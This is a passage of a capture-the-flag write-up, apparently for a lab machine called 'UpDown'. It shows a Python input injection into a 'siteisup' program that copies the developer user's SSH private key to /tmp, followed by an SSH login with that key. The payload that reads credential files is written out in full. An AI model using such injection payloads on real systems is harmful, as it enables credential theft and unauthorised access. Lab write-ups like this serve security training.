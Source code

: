 ```bash
www-data@updown:/home/developer/dev$ ./siteisup                                                                      
Welcome to 'siteisup.htb' application                                                                                
                                                                                                                     
Enter URL here:open('/tmp/key', 'w').write(open('/home/developer/.ssh/id_rsa').read())
Traceback (most recent call last):                                                                                   
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>    
    page = requests.get(url)                                                                                         
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL 'None': No scheme supplied. Perhaps you meant http://None?
www-data@updown:/home/developer/dev$ ls /tmp/
error-output.txt  key
www-data@updown:/home/developer/dev$ cat /tmp/key 
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
www-data@updown:/home/developer/dev$ 
```

I copied the key to my machine and used it to reconnect to the server.

```bash
$ vim dev_id_rsa

$ chmod 600 dev_id_rsa

$ ssh -i dev_id_rsa developer@target
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 19:21:30 UTC 2023

  System load:           0.0
  Usage of /:            50.0% of 2.84GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             221
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.177
  IPv6 address for eth0: dead:beef::250:56ff:feb9:241

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

```